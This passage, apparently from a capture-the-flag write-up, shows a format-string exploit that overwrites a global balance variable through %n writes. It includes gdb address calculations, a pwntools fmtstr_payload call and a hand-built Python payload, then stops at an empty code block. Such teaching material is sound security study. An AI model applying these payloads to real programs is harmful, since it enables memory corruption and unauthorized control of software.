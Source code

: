 ```
gdb-peda$ p 0x000055efa9bb3010 - 0x55efa9bb0560
$1 = 0x2ab0
gdb-peda$ x/x 0x55efa9bb0560 + 0x2ab0
0x55efa9bb3010 <bal>:	0x00000000000000c8
gdb-peda$ 

```
As we can see, the global variable `bal` is present at an offset of 0x2ab0 above the obtained stack leak address. 

And so we have have obtained the address for the variable `bal` i.e `0x55efa9bb0560 + 0x2ab0 = 0x000055efa9bb3010` 


### Overwriting the value of `bal` from 100 to 200: 
Now that we have obtained the address for the global variable `bal`, our task is to overwrite it with `200`. Since there are no other vulnerabilities in the program, we will have to look for a way to overwrite `bal` using format strings only. Thus we will call the function `call_leaks()` again, this time to write to memory. 
This can be done in 2 ways:
	- Using `fmtstr_payload(offset, {addr : value})` in pwntools.
	    - While we make use of the above built in function in pwntools, we must note that the offset we give is equal to 6, as we saw above, our input string was found at offset 6. The address we give here is the address of the global variable bal, and the value to give is 200 since that is what we are going to overwrite it with. 
	      Thus our payload is something like: `payload = fmtstr_payload(6, {bal_address : 200})`
	- Using `%n` format specifier. 
	    - This could be a bit tricky as it requires for us to understand the concept. `%n` prints nothing, instead stores the number of characters printed onto the screen to the given variable. So what does this mean? 
	      Let's consider an example: 
```
#include<stdio.h>
int main() {
   int s;
   printf("The value of %ns : ", &s);
   printf("%d", s);
   getchar();
   return 0;
}
```
	      Output obtained is: `The value of s : 13`. Why? That's because the number of characters printed before `%n` is 13. 
	      We shall use a similar concept to write t memory.
	      
	      While writing to memory, we must keep a few things in mind, the offset, the address and the value to overwrite it with. Our offset being 6, adress being that of the recently obtained global variable bal and the value to overwrite it being 200. Our payload will look something like this:
```python=
pay = '%{}p'.format(200-7)	# print (200 - 7) characters to the screen. 
pay += 'c'*7			# print 7 characters to the screen. 
pay += '%8$n'			# Find the offset where address of bal is written to memory. 
pay += p64(bal)		# Write the address of bal to memory.
```
Here is how it looks like in memory! 
```

```
